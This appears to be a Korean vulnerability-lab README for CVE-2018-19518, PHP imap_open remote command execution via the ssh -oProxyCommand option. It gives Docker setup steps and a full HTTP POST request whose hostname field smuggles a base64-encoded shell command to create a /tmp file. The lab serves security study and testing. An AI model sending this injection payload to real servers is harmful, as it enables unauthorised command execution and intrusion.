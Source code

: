 # PHP IMAP Remote Command Execution (CVE-2018-19518)

PHP의 imap_open() 함수가 내부적으로 rsh 명령을 호출하는데, Debian/Ubuntu 시스템에서는 rsh가 ssh로 동작하며, 이때 공격자가 ssh의 -oProxyCommand 옵션을 조작하면 외부 명령을 실행시킬 수 있어 원격 명령 실행(RCE) 취약점이 발생할 수 있다.

참고 자료(References):

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## 환경설정

다음 명령어를 실행하여 취약한 PHP 버전의 서버를 시작합니다.

```
docker compose up -d
```

서버가 실행되면 브라우저에서 'http://your-ip:8080'에 접속하여 웹 페이지에 접근할 수 있습니다. 해당 페이지는 메일 서버와의 연결이 정상적으로 이루어지는지 확인하는 기능을 제공하며, 이를 위해 서버 주소, 사용자 이름, 비밀번호를 입력해야 합니다.


## 실행과정

아래와 같은 요청을 보내서 명령을 실행합니다. `echo '1234567890'>/tmp/test0001`:

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

'docker compose exec web bash' 명령어를 실행하여 컨테이너에 접속한 후, /tmp/test0001 파일이 성공적으로 생성된 것을 확인할 수 있습니다.

![](rce.png)
